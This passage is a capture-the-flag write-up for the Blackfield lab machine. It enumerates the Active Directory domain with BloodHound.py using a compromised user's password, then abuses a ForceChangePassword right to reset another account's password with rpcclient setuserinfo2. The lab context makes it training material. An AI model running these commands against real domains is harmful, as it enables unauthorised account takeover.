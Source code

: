 What we can utilize however, is `bloodhound` to pull domain informaiton externally using Bloodhound.py.

**GitHub:** [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)

```bash
python2 bloodhound.py -u 'support' -p '#00^BlackKnight' -ns '10.10.10.192' -d 'blackfield.local' -gc 'dc01.blackfield.local'
```

![](<../../../.gitbook/assets/image (2040) (1).png>)

After uploading the results to bloodhound we then further investigate our currently owned user _support_. Looking at the node information we see we have deriative permissions on the "ForceChangePassword" attribute over the user _Audit2020_.

![](<../../../.gitbook/assets/image (2041) (1) (1).png>)

We can force a password change externally with rpcclient as shown below.

```bash
# setuserinfo2 username level password [password_expired]

rpcclient -U support //10.10.10.192 
setuserinfo2 audit2020 23 'Password123'
```
